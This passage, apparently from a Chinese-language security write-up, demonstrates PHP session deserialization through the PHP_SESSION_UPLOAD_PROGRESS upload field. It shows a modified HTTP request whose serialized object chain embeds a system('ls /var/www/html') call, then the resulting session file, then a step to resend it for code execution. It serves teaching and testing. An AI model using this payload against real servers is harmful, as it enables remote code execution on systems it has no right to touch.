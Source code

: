 * 通过上面的表单上传文件时抓包改包如下

```
POST /phpinfo.php HTTP/1.1
Host: 10.11.11.11
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://127.0.0.1/upload.html
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1971979777391321181548092978
Content-Length: 489

-----------------------------1971979777391321181548092978
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123|O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:27:"system('ls /var/www/html');";}}} 
-----------------------------1971979777391321181548092978
Content-Disposition: form-data; name="file"; filename="tmp.txt"
Content-Type: text/plain

abcdefg
-----------------------------1971979777391321181548092978--
```
![](/img/post/php-session-unserialize-1.png)

请求后服务器上生成的session文件sess_6oa2pegcmlejjvhr4t68ric5l5的内容为：
```
a:1:{s:152:"upload_progress_123|O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:27:"system('ls /var/www/html');";}}}
```

* 改包重新访问从而执行代码
